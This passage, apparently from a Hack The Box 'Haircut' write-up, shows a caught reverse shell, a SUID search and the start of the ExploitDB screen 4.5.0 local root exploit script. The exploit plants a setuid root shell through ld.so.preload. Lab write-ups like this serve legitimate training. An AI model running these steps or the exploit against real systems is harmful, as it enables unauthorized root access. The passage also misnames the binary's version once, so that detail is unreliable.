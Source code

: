 Now, we can start a netcat listener and execute the `revshell.php` using `curl http://10.10.10.24/uploads/revshell.php` on our local machine.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.24] 46038
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:08:11 up 31 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

# Privilege Escalation

Now that we have a user shell, let’s try to find find files with the SUID bit.

```bash
$ find / -perm -4000 -type f 2>/dev/null
/bin/ntfs-3g
/bin/ping6
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/umount
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/passwd
/usr/bin/screen-4.5.0
...
```

There was a weirdly specific file called `screen-4.5.9` which is vulnerable to this script on [ExploitDB](https://www.exploit-db.com/exploits/41154).

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
```